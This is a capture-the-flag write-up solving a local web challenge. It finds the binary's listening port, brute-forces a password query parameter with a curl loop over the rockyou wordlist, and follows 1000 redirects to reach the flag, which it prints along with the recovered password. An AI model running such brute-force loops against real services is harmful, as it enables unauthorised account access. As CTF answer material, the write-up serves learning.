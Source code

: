 ## Solve:

- Check file properties
  ```bash
  chronos@hackmachine:~/CTFs/AFT/web/custom-req/third$ file third
  third: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ef678cfba147a70daf198e097736e386ccf2118b, for GNU/Linux 3.2.0, stripped
  chronos@hackmachine:~/CTFs/AFT/web/custom-req/third$ chmod +x third
  chronos@hackmachine:~/CTFs/AFT/web/custom-req/third$ ./third
  ```

<br>

- Check local network (use another terminal, don't close the program)
  ```bash
  netstat -tunlp
  
  tcp        0      0 0.0.0.0:5050            0.0.0.0:*               LISTEN      5730/./third
  ```

<br>

- Now that we know the port that the application is listening on, we check it out using `curl`
  ```bash
  curl 127.1:5050
  
  This is the root directory.
  Provide a query in which you bruteforce a password.
  The parameter is "password".
  
  BTW, can you follow redirects more than 1000 times?
  ```
- You will also see the request being made on the tab hosting the program
  

<br>

- Create the URL query, select the wordlist (rockyou.txt) and loop through the wordlist
  ```bash
  while read -r line; do echo $line; curl -s 127.1:5050?password=$line; done < /usr/share/wordlists/rockyou.txt | grep -B2 redirect
  ```
  - echo the current line we are requesting
  - while loop to read `line` by `line` from the input file " < /usr/share/wordlists/rockyou.txt "
  - request page silently `-s`
  - find in all that output the sequence starting 2 lines before `-B2` the searched word "redirect"
  
  We found the password
  ```
  celtic
  Good query! Now redirect to lt4v2txdp9gn11yr
  ```

<br>

- Follow the redirect, but the intro says more than 1000 times (`curl`'s default is 50 redirects)
  ```bash
  curl 127.1:5050?password=celtic -L --max-redirs 1000
  ```
  ```
  Congrats, here you go: flag{redirect_redirect_go_ahead}
  ```

<br>

## Flag:

`flag{redirect_redirect_go_ahead}`
